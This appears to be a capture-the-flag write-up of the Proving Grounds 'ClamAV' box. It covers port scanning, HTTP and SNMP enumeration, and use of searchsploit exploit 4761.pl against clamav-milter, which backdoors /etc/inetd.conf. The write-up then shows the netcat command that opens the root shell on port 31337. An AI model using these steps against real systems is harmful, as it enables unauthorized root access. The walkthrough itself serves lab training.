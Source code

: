 ```yaml
---
title: "Proving Grounds - ClamAV"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, SNMP, ClamAV-Milter]
mermaid: true
image: ../assets/img/provingrounds/oscp.png
---
```


ClamAV was an insightful box to explore exploitation techniques for services like ClamAV-Milter.

The process started with comprehensive information gathering, including a full port scan revealing various open ports. 

The HTTP enumeration led to identifying and decoding a binary message, providing a potential password. 

Enumeration of SNMP services helped identify the running ClamAV-Milter service. 

The exploitation phase involved searching for relevant exploits and utilizing a Perl script to create a backdoor by modifying the /etc/inetd.conf file, which enabled root shell access through a netcat connection on a specified port.

# Diagram

```mermaid
graph TD
    A[Information Gathering] -->|Port Scan| B[Enumeration]
    B --> C[HTTP 80]
    C --> |Find Binary Info| D[Decode Binary]
    B --> F[SNMP 199 & 25]
    F --> G[Identify ClamAV-Milter]
    G --> H[Exploit ClamAV-Milter] --> |Execute Perl Script| I[Root Shell]
```

## Information Gathering

`IP=192.168.184.42`  

### Port scan

---

- `nmap -sS -Pn -n -T4 --open $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled.png)
    
- `nmap -sS -Pn -n -T4 --open -p- $IP` - new port 6000
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%201.png)
    
- `nmap -sVC -Pn -n -p 22,25,80,139,199,445,60000 $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%202.png)
    

## Enumeration

### HTTP 80

---

- [http://192.168.184.42/](http://192.168.184.42/) → Info in binary. Also the title is called `Ph33r`, looks like an User.
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%203.png)
    
- translating binary - `ifyoudontpwnmeuran00b` -  Looks like an password
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%204.png)
    

- `feroxbuster -u http://$IP -k -C 404,403,500,502  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%205.png)
    


### SNMP 199 & 25

---

- `snmpwalk -c public -v1 $IP` - Nothing useful
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2012.png)
    
- `snmp-check $IP -c public`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2013.png)
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2015.png)
    
    

It’s running  **ClamAV-Milter**

```jsx
3782 runnable clamav-milter /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
```

## Exploitation

### ClamAV

---

Now searching for scripts for ClamAV-Milter

- `searchsploit ClamAV-Milter` → *Only in perl*
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2017.png)
    
- `cat 4761.pl`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2018.png)
    

This script exploits a vulnerability in Sendmail when used with ClamAV's milter to append a malicious command to `/etc/inetd.conf`, effectively creating a backdoor that grants root access via a shell on a specified TCP port (31337). The script then restarts the inetd service to activate the backdoor.

- `perl 4761.pl $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2019.png)
    

- `nc $IP 31337
/bin/sh -i`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2020.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2021.png)